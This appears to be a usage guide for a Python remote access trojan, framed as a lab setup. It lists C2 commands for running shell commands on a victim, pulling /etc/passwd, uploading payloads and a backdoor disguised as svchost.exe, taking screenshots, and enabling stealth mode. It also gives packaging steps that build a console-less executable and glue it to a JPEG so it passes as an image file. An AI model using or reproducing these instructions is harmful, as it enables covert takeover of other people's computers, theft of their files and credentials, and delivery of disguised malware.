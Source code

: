 # Lab Setup Instructions:

On Attacker VM (C2 Server):


pip install pyautogui
python rat_client.py
On Victim VM:


python rat_server.py
Operation Guide:


# Execute command on victim
RAT> shell whoami

# Download file from victim
RAT> download /etc/passwd

# Upload malware to victim
RAT> upload ./payload.exe C:\\Windows\\Temp\\payload.exe

# Capture victim screen
RAT> screenshot

# Remove RAT from victim
RAT> kill

# Exit C2
RAT> exit

# List active sessions
RAT> sessions

# Switch to specific session
RAT> switch abc123

# Take screenshot with custom name
RAT> screenshot victim_desktop.jpg

# Upload with verification
RAT> upload backdoor.exe C:\\Windows\\Temp\\svchost.exe

# Enable stealth mode
RAT> stealth on



# Package Instructions
> pyinstaller --onefile --noconsole --name "image.jpeg" --add-data "image.jpeg;." wrapper.py
>
> $imageBytes = [System.IO.File]::ReadAllBytes("image.jpeg")
> 
> $exeBytes = [System.IO.File]::ReadAllBytes("pyRAT\dist\image.jpeg.exe")
> 
> [System.IO.File]::WriteAllBytes("FINAL_image.jpeg", $imageBytes + $exeBytes)

> taskkill /F /IM calculator.exe
